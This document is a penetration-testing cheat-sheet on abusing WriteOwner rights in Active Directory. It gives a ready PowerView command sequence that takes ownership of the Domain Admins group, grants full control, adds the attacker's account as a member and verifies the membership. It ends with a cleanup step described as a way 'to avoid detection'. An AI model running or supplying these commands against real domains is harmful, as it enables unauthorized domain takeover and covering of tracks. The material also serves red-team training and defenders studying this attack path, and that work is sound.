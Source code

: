 ### WriteOwner

#### Overview

Abusing **WriteOwner** permissions allows you to take ownership of an Active Directory object. This can be leveraged to modify permissions, gain privileges, or escalate access.

---
### Check user rights with powerview.ps1

```powershell
Invoke-ACLScanner -ResolveGUIDs | ? {$_.identityreferencename -like 'Target_user'}
```
- Out
``` bash
ObjectDN                : CN=Domain Admins,CN=Users,DC=object,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : WriteOwner
```

### Workflow

#### 1. **Set Yourself as Owner**

Take ownership of the target object. Replace `<TargetObject>` with the name of the object and `<YourUsername>` with your account name.

```powershell
Set-DomainObjectOwner -Identity '<TargetObject>' -OwnerIdentity '<YourUsername>'
```

- **Example**: Set yourself as the owner of the `Domain Admins` group.
    
    ```powershell
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'john.doe'
    ```
    

---

#### 2. **Grant Full Permissions to Yourself**

Once you are the owner, grant your user full control over the object. Replace `<TargetObject>` and `<YourUsername>` as appropriate.

```powershell
Add-DomainObjectAcl -TargetIdentity '<TargetObject>' -PrincipalIdentity '<YourUsername>' -Rights all
```

- **Example**: Give yourself full rights on the `Domain Admins` group.
    
    ```powershell
    Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity 'john.doe' -Rights all
    ```
    

---

#### 3. **Add Yourself to a Privileged Group**

With the necessary permissions, add your user to a high-privilege group, such as `Domain Admins`. Replace `<TargetGroup>` and `<YourUsername>` as needed.

```powershell
Add-DomainGroupMember -Identity '<TargetGroup>' -Member '<YourUsername>'
```

- **Example**: Add yourself to the `Domain Admins` group.
    
    ```powershell
    Add-DomainGroupMember -Identity 'Domain Admins' -Member 'john.doe'
    ```
    

---

#### 4. **Verify the Membership**

Check if your user has been successfully added to the group.

```powershell
net group "<TargetGroup>" /domain
```

- **Example**: Confirm you are part of `Domain Admins`.
    
    ```powershell
    net group "Domain Admins" /domain
    ```
    

---

#### 5. **Log Off and Log Back In**

Log off and back on to apply the updated privileges for your session.

---

### Notes

- **Replace Placeholders**:
    
    - `<TargetObject>`: The object you want to control (e.g., `Domain Admins`, specific users, or groups).
        
    - `<YourUsername>`: Your user account (e.g., `john.doe`).
        
    - `<TargetGroup>`: The target group for privilege escalation (e.g., `Domain Admins`).
        
- **Authorization**: Ensure you have permission to perform this activity as part of an authorized security assessment.
    
- **Cleanup**: To avoid detection, restore the original owner and permissions after testing:
    
    ```powershell
    Set-DomainObjectOwner -Identity '<TargetObject>' -OwnerIdentity '<OriginalOwner>'
    ```
